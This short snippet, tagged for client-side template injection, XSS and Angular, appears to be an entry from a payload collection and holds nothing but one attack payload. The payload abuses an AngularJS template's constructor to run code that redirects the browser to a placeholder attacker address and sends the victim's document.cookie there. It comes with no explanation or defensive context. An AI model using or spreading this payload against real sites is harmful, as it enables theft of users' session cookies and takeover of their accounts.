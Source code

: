 #csti #xss #angular

```js
{{constructor.constructor("window.location=`http://[ATTACKER_IP]:[ATTACKER_PORT]?c=${document.cookie}`")()}}

```